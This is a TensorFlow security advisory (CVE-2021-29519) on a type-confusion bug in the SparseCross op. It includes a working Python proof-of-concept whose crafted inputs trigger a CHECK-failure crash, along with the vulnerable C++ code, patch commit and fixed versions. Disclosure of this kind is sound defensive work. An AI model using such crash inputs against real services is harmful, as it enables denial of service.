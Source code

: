 ## TFSA-2021-008: `CHECK`-fail in `SparseCross` due to type confusion

### CVE Number
CVE-2021-29519

### Impact
The API of `tf.raw_ops.SparseCross` allows combinations which would
result in a `CHECK`-failure and denial of service:

```python
import tensorflow as tf

hashed_output = False
num_buckets = 1949315406
hash_key = 1869835877
out_type = tf.string
internal_type = tf.string

indices_1 = tf.constant([0, 6], shape=[1, 2], dtype=tf.int64)
indices_2 = tf.constant([0, 0], shape=[1, 2], dtype=tf.int64)
indices = [indices_1, indices_2]

values_1 = tf.constant([0], dtype=tf.int64)
values_2 = tf.constant([72], dtype=tf.int64)
values = [values_1, values_2]

batch_size = 4
shape_1 = tf.constant([4, 122], dtype=tf.int64)
shape_2 = tf.constant([4, 188], dtype=tf.int64)
shapes = [shape_1, shape_2]

dense_1 = tf.constant([188, 127, 336, 0], shape=[4, 1], dtype=tf.int64)
dense_2 = tf.constant([341, 470, 470, 470], shape=[4, 1], dtype=tf.int64)
dense_3 = tf.constant([188, 188, 341, 922], shape=[4, 1], dtype=tf.int64)
denses = [dense_1, dense_2, dense_3]

tf.raw_ops.SparseCross(indices=indices, values=values, shapes=shapes, dense_inputs=denses, hashed_output=hashed_output,
                       num_buckets=num_buckets, hash_key=hash_key, out_type=out_type, internal_type=internal_type)
```

The above code will result in a `CHECK` fail in
[`tensor.cc`](https://github.com/tensorflow/tensorflow/blob/3d782b7d47b1bf2ed32bd4a246d6d6cadc4c903d/tensorflow/core/framework/tensor.cc#L670-L675):

```cc
void Tensor::CheckTypeAndIsAligned(DataType expected_dtype) const {
  CHECK_EQ(dtype(), expected_dtype)
      << " " << DataTypeString(expected_dtype) << " expected, got "
      << DataTypeString(dtype());
  ...
}
```

This is because the
[implementation](https://github.com/tensorflow/tensorflow/blob/3d782b7d47b1bf2ed32bd4a246d6d6cadc4c903d/tensorflow/core/kernels/sparse_cross_op.cc#L114-L116)
is tricked to consider a tensor of type `tstring` which in fact contains
integral elements:

```cc
  if (DT_STRING == values_.dtype())
      return Fingerprint64(values_.vec<tstring>().data()[start + n]);
  return values_.vec<int64>().data()[start + n];
```

Fixing the type confusion by preventing mixing `DT_STRING` and `DT_INT64` types
solves this issue.

### Patches
We have patched the issue in GitHub commit
[b1cc5e5a50e7cee09f2c6eb48eb40ee9c4125025](https://github.com/tensorflow/tensorflow/commit/b1cc5e5a50e7cee09f2c6eb48eb40ee9c4125025).

The fix will be included in TensorFlow 2.5.0. We will also cherrypick this
commit on TensorFlow 2.4.2, TensorFlow 2.3.3, TensorFlow 2.2.3 and TensorFlow
2.1.4, as these are also affected and still in supported range.

### For more information
Please consult [our security
guide](https://github.com/tensorflow/tensorflow/blob/master/SECURITY.md) for
more information regarding the security model and how to contact us with issues
and questions.

### Attribution
This vulnerability has been reported by Yakun Zhang and Ying Wang of Baidu
X-Team.
